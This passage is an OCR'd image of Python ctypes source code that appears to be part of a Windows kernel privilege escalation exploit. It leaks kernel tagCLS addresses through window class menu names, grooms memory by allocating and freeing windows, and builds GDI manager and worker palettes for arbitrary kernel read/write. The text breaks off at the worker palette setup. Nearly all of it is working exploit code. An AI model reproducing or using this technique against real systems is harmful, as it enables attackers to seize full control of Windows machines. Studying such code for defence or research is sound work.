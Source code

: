 ```

    #debug_print ("t[+] kernelTagCLS: 0x%X" % kernelTagCLS)

    # Calculate user-land tagCLS location: tagCLS - ulClientDelta
    userTagCLS = kernelTagCLS - ulClientDelta

    #debug_print ("t[+] userTagCLS: 0x%X" % userTagCLS)

    # Calculate kernel-land tagCLS.lpszMenuName
    tagCLS_lpszMenuName = (cast (userTagCLS+0x98, POINTER(c_ulonglong))).contents.value

    #debug_print ("t[+] tagCLS_lpszMenuName: 0x%X" % tagCLS_lpszMenuName)

    # Destroy Window
    user32.DestroyWindow(hWnd)

    # Unregister Class
    user32.UnregisterClassW(c_wchar_p("Class_" + str(classNumber)), hInst)

    return tagCLS_lpszMenuName


def alloc_free_windows():
    """ Calls alloc_free_window() until current address matches previous one """
    global classNumber

    previous_entry = 0

    while (1):
        plpszMenuName = allocate_free_window()
        if previous_entry == plpszMenuName:
            return plpszMenuName
        previous_entry = plpszMenuName
        classNumber = classNumber + 1 

hManager = HPALETTE()
hWorker = HPALETTE()

class PALETTEENTRY(Structure):
    _fields_ = [("peRed", BYTE),
                ("peGreen", BYTE),
                ("peBlue", BYTE),
                ("peFlags", BYTE)]

class LOGPALETTE(Structure):
    _fields_ = [("palVersion", WORD),
                ("palNumEntries", WORD), 
                ("palPalEntry", POINTER(PALETTEENTRY))]

def setup_manager_palette():
    """ Creates Manager Palette """
    global hManager

    logPalette = LOGPALETTE()
    logPalette.palNumEntries = 0x3DC; # size: 0x1000; (SIZE - 0x90) / 4; 0x90 = size of _PALETTE64 struct
    logPalette.palVersion = 0x300
    gdi32.CreatePalette.restype = HPALETTE
    gdi32.CreatePalette.argtypes = [POINTER(LOGPALETTE)]
    hManager = gdi32.CreatePalette(byref(logPalette))
    debug_print ("t[+] Manager Palette handle: 0x%X" % hManager)

def setup_worker_palette():
```